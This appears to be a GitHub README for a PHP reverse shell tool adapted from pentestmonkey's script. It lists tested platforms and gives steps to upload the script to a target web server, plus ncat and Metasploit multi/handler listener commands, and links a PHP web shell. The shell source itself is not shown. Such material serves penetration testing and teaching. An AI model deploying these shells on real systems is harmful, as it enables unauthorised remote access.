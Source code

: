 # PHP Reverse Shell

Just a little refresh on the popular PHP reverse shell script [github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell). Credits to the original author!

Works on Linux OS and macOS with `/bin/sh` and Windows OS with `cmd.exe`. Script will automatically detect an underlying OS.

Works with both `ncat` and `multi/handler`.

Tested on XAMPP for Linux v7.3.19 (64-bit) with PHP v7.3.19 on Kali Linux v2020.2 (64-bit).

Tested on XAMPP for OS X v7.4.10 (64-bit) with PHP v7.4.10 on macOS Catalina v10.15.6 (64-bit).

Tested on XAMPP for Windows v7.4.3 (64-bit) with PHP v7.4.3 on Windows 10 Enterprise OS (64-bit).

Made for educational purposes. I hope it will help!

**Process pipes on Windows OS do not support asynchronous operations so `stream_set_blocking()`, `stream_select()` and `feof()` will not work properly, but I found a workaround.**

## How to Run

[/src/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php) requires PHP v5.0.0 or greater, mainly because `proc_get_status()` is being used.

[/src/php_reverse_shell_older.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell_older.php) requires PHP v4.3.0 or greater.

**Change the IP address and port number inside the script as necessary.**

Copy [/src/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php) to your server's web root directory (e.g. to /opt/lampp/htdocs/ on XAMPP) or upload it to your target's web server.

To set up a listener, open the GNOME Terminal on Kali Linux and run one of the examples below.

Set up an `ncat` listener:

```fundamental
ncat -nvlp 9000
```

Set up a `multi/handler` module:

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 127.0.0.1

set LPORT 9000

exploit
```

Navigate to the file with your preferred web browser.

---

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple_php_web_shell.php).

Check the minified scripts in [/src/minified/](https://github.com/ivan-sincek/php-reverse-shell/tree/master/src/minified).

## Images

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/ncat.jpg" alt="Ncat"></p>

<p align="center">Figure 1 - Ncat</p>

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/scripts_dump.jpg" alt="Script Dump"></p>

<p align="center">Figure 2 - Script's Dump</p>
